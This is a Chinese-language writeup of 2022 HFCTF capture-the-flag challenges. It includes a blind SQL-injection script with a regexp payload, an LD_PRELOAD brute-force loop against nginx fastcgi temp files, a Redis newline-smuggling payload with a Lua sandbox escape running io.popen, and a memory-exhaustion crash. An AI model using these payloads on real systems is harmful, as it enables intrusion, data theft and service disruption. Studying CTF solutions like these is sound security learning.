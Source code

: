 # 2022-HFCTF-Writeup

## babysql

本来利用regexp想时间盲注的时候发现mysql8似乎不能利用正则进行时间盲注，然后本地测试偶然报错：

![image-20220320173809775](2022-HFCTF-Writeup.assets/image-20220320173809775.png)

发现这种姿势可以401和500状态码的盲注。

但是直接regexp注入还不行，随便试了一下发现前面加`@tmp:=`就可以了，然后队里别的师傅查mysql8的文档查到了`COLLATE utf8mb4_bin`能区分大小写，写脚本跑出来然后登录就行了。



```sql
import string

import requests


url=""


flag = ""

for i in range(1000):

    for j in "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz01234567890!@$%^&_+":
        if j=="$" or j=="^" or j=="+":
            j = "\\\\"+j
        payload="'||@tmp:=`password`COLLATE`utf8mb4_bin`regexp'^{}.?'||'b'regexp'?:c'||'".format(flag+j)
        data={
            "username":payload,
            "password":1
        }
        r=requests.post(url=url,data=data)
        if(r.status_code==401):
            flag+=j
            print(flag)
            break

```

区分大小写跑出来就行了。

## ezphp

P神密友圈的一道题，环境似乎是dash的导致了P神挖的那个bash的poc没法打，但是发现是nginx环境而且开了fastcgi，有点类似陆队写的这个文章，当时hxp的那题，思路是利用nginx缓存文件进行include：

https://tttang.com/archive/1384/

所以流程也就是文章中提到的了：



- 让后端 php 请求一个过大的文件
- Fastcgi 返回响应包过大，导致 Nginx 需要产生临时文件进行缓存
- 虽然 Nginx 删除了`/var/lib/nginx/fastcgi`下的临时文件，但是在 `/proc/pid/fd/` 下我们可以找到被删除的文件
- 利用putenv把`LD_PRELOAD`设置成这个内存中的文件即可（大文件是so文件）



然后就是写个c然后编译成so，需要so比较大nginx才会缓存，这里的办法就是c代码里面多放这样的：

```c
char a[] = "sdafsdsafsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsafasdfas";
```

然后弄了十几万个字符串就行了。
接下来就是爆破的问题，题目给了dockerfile，本地起了一下发现nginx worker是`/proc/12`，队友起的也是在12这里，估计就是12左右了，给个范围开始爆破。

然后一直bp发包，python这边爆破请求即可。

```python
import requests

url = "http://120.79.121.132:22481/index.php"

while True:
    for i in range(10,15):
        for j in range(10,50):
            params={
                "env":"LD_PRELOAD=/proc/{}/fd/{}".format(i,j)
            }
            r = requests.get(url,params=params)
```

## Check in

公众号回复，进入网址，最下面弹幕有快速飘过的flag，多截图几次就可以了。

## Plain Text

复制，base64解密, 

![img](2022-HFCTF-Writeup.assets/-16478427546539.assets)

百度翻译，

![img](2022-HFCTF-Writeup.assets/-164784276598311.assets)

看不出来奇怪的东西，直接丢入谷歌翻译

![img](2022-HFCTF-Writeup.assets/-164784277981213.assets)

那就直接 HFCTF{apple_watermelon} 

##  Quest-Crash

一直set比较比较长的键和值，bp一直发包，跑一会就发现500了，再去访问getFlag就可以得到flag了，不知道到底是内存满了还是redis连接的问题，之前自己的redis出现过被flask的连接数给打崩的情况，但这题队友说应该是内存满了导致的崩溃，比赛时间原因就没有细究。

## Quest-RCE

redis的rce，最近新出了一个redis的cve，利用lua来rce的，但是没法执行eval。

查了一下redis能不能执行多行的命令，试了一下%0a不行。但是想到这是JSON，试了一下`\u000a`发现可以，就出了：

```json
{"query":"SET 1 1\u000aeval 'local io_l = package.loadlib(\"/usr/lib/x86_64-linux-gnu/liblua5.1.so.0\", \"luaopen_io\"); local io = io_l(); local f = io.popen(\"cat /flag_UVEmnDKY4VHyUVRVj46ZeojgfZpxzG\", \"r\"); local res = f:read(\"*a\"); f:close(); return res' 0"}
```

## fpbe

打开ida看一下程序，能找到main函数，扫一眼是我看不懂的样子，遂去网上查了一下发现是bpf程序，甚至能直接找到模板例程是github上的libbpf-bootstrap项目，大概了解下bpf程序的执行流程，用户态可以用C来写运行的代码，再通过一个Clang&LLVM的编译器将C代码编译成BPF目标码用户态通过系统调用bpf()将BPF目标码注入到内核当中内核通过JIT(Just-In-Time)将BPF目编码转换成本地指令码……

参考：https://www.cnblogs.com/hpyu/articles/14254250.html

![img](2022-HFCTF-Writeup.assets/-16478426243401.assets)

![img](2022-HFCTF-Writeup.assets/-16478426316213.assets)

我们的目标就是通过jit即时编译加载到内核里面的代码：通过idapy把它dump出一个新elf文件

```python

import binascii
f = open('./dump_file','wb')
addr = 0x4F4018
datas = ''
for i in range(1648):
    data = idc.get_wide_byte(addr+i)
    datas += hex(data)[2:].rjust(2,'0')
print(datas)
f.write(binascii.unhexlify(datas))
f.close()
```

结果dump出的elf文件ida打不开，在网上又查了查发现可以通过llvm-objdump这个工具来分析下这个可执行文件的反汇编指令信息

![img](2022-HFCTF-Writeup.assets/-16478426534555.assets)

总结一下--

(52366*a+29179*b+28096*d+64392*c==209012997183893)

(37508*a+44499*b+61887*d+27365*c==181792633258816)

(59154*a+25901*b+56709*d+32808*c==183564558159267)

(62010*a+31886*b+33324*d+51779*c==204080879923831)

Z3解一下得到flag：

HFCTF{0vR3sAlbs8pD2h53}

![img](2022-HFCTF-Writeup.assets/-16478426961807.assets)
